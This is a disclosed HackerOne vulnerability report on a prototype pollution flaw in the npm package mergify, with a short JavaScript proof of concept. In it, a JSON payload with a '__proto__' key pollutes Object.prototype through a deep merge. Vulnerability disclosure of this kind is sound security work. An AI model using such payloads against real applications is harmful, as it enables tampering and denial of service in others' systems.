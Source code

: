 # Prototype pollution attack (mergify)

## Report Details
- **Report ID**: 439098
- **URL**: https://hackerone.com/reports/439098
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-11-11T13:39:30.613Z
- **Disclosed**: 2018-11-20T12:04:14.262Z

## Reporter
- **Username**: dienpv
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi team,
I would like to report a prototype pollution vulnerability in mergify
that allows an attacker to inject properties on Object.prototype.

# Module

**module name:** mergify
**version:** 1.0.2
**npm page:** `https://www.npmjs.com/package/mergify`

## Module Description

> Merge objects deeply

# Vulnerability

## Vulnerability Description

> this vulnerability type is similar to my report  #438274
mergify is vulnerable when it performs a recursive copy of the specified objects.

## Steps To Reproduce:

> In the following code snippet, "payload" would come from user-input (JSON data).
```javascript
var mergify= require('mergify');
var payload = '{"__proto__":{"polluted":"mergify_done !"}}';
var test = {};
console.log("Before: ", test.polluted);
mergify({},JSON.parse(payload));
console.log("After: ", test.polluted);

# Wrap up
- I contacted the maintainer to let them know: [Y/N] 
- I opened an issue in the related repository: [Y/N] 

Thanks!

## Impact

It causes Denial of Service or RCE in some cases.

## Attachments
No attachments
